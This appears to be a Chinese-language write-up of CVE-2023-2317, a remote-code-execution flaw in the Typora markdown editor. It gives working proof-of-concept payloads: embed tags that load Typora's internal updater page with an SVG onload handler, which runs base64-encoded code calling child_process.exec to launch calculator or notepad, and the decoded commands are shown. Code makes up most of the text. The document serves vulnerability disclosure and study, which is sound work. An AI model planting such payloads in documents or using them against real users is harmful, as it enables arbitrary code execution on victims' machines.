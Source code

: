 [1.6.7之后的版本](#2971漏洞原理)，可以把"typora://app/typemark"解析成 [Typora Installation Absolute Path]/resources/ ，但是0.9版本没有这个功能；

而且两个版本的目录也有很大差异。

```
typora://resources/app/updater/updater.html
```

```xml

<embed style="height:0;" src="typora://resources/app/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ2NhbGMnLCBMaW51eDogJ2dub21lLWNhbGN1bGF0b3IgLWUgIlR5cG9yYSBSQ0UgUG9DIid9KVtuYXZpZ2F0b3IucGxhdGZvcm0uc3Vic3RyKDAsNSldKQ=='))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]">
​```
reqnode('child_process').exec(({Win32: 'calc', Linux: 'gnome-calculator -e "Typora RCE PoC"'})[navigator.platform.substr(0,5)])
​```
<embed style="height:0;" src="typora://resources/app/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ25vdGVwYWQgd3d3LmV4cHBvYy5vcmcnLCBMaW51eDogJ2dub21lLWNhbGN1bGF0b3IgLWUgIlR5cG9yYSBSQ0UgUG9DIid9KVtuYXZpZ2F0b3IucGxhdGZvcm0uc3Vic3RyKDAsNSldKQ=='))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]">
​```
reqnode('child_process').exec(({Win32: 'notepad www.exppoc.org', Linux: 'gnome-calculator -e "Typora RCE PoC"'})[navigator.platform.substr(0,5)])
​```
```

修改后，发现成功触发到updater.html。

![1693365459596](CVE-2023-2317/1693365459596.png)
